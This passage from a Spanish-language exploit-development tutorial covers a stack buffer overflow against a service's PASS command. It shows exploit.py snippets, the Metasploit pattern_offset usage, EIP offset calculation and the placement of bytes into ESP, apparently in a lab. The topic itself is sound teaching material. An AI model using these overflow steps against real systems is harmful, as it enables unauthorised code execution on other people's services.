 Ahora cambiar el exploit.py, añadimos el payload con la cadena generada con el pattern_create y quitamos el total lenght y el condicional del argumento, las líneas modificadas quedarían así en el script:
```py
payload = b'TEXTO COPIADO'

# Y más abajo modificamos:
s.send(b"PASS " + payload + b'\r\n')
```
Lanzamos el exploit.py
```sh
> python3 exploit.py
```
Se corrompera de nuevo el servicio. Se quedará en pause en el Inmunity.  
Nos copiamos el valor que sale en el EIP, imagina que es; 7A37417A
```sh
> /usr/share/metaexploit-framework/tools/exploit/pattern_offset.rb -q 0x7A37417A
# Saldrá un número, ese será el offset. 
```
El offset que salió es 4654, entonces 4654 "A" por ejemplo, habría que meter justo antes de llegar al EIP. Comprobemos que es verdad, modificamos el exploit.py:
```py
# Quitamos el churraco de payload(el texto copiado). Añadimos en variables globales:
offset = 4654
before_eip = b"A"*offset
eip = b"B"*4
payload = before_eip + eip

# El resto no cambia.
```
Ya sabes, cerramos el servicio y el Inmunity y volvemos a abrirlos (ya que el servicio se quedo crasheado de antes) y lo mismo --> attach y play en el Inmunity.

Lanzamos de nuevo el exploit.py, se pausara/crasheará de nuevo en el Inmunity el servicio y en el EIP deberíamos ver 42424242 correspondiente a las letras B en hexadecimal.

Tenemos el control del EIP. Completada la primera parte.

### Después de sobrescribir el EIP

Hemos calculado el offset -cantidad de caracteres antes de llegar al EIP- que en este caso son 4654 caracteres. El EIP lo hemos llenado de 4 caracteres. ¿Y ahora que?, ¿si añadimos más caracteres a donde van?. En esta ocasion veremos, en el Inmunity, que los caracteres adicionales se encontraran en el **ESP** -Extended Stack Pointer- que es un registro especial que **representa la dirección** de la **pila** en la memoria, por eso a veces se le pueda llamar pila al ESP.  
La pila es una estructura de datos en la memoria que se utiliza para almacenar información temporalmente, como valores de variable y direcciones de retorno de funciones.

En el script añadimos:
```py

after_eip = b"C"*200

payload = before_eip + eip + after_eip

```
